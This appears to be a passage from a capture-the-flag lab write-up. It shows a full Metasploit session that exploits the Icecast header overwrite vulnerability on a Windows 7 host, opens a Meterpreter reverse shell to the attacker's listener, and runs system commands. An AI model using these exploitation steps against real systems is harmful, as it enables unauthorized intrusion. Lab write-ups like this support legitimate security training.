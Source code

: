 Using this vulnerability exploit the victim and using `metasploit` to gain the reverse shell.

```bash
msf5 > search icecast

Matching Modules================
   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/http/icecast_header  2004-09-28       great  No     Icecast Header Overwrite


msf5 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/http/icecast_header) > show options
Module options (exploit/windows/http/icecast_header):
   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   8000             yes       The target port (TCP)


Payload options (windows/meterpreter/reverse_tcp):
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.76     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/http/icecast_header) > set RHOSTS 10.10.88.122
RHOSTS => 10.10.88.122
msf5 exploit(windows/http/icecast_header) >
msf5 exploit(windows/http/icecast_header) > set LHOST 10.2.18.4
LHOST => 10.2.18.4
msf5 exploit(windows/http/icecast_header) > exploit

[*] Started reverse TCP handler on 10.2.18.4:4444
[*] Sending stage (176195 bytes) to 10.10.88.122[*] Meterpreter session 1 opened (10.2.18.4:4444 -> 10.10.88.122:49646) at 2020-07-20 20:14:25 -0400

meterpreter > sysinfo
Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows

meterpreter > shell
Process 2916 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Program Files (x86)\Icecast2 Win32>whoami
whoami
dark-pc\dark
```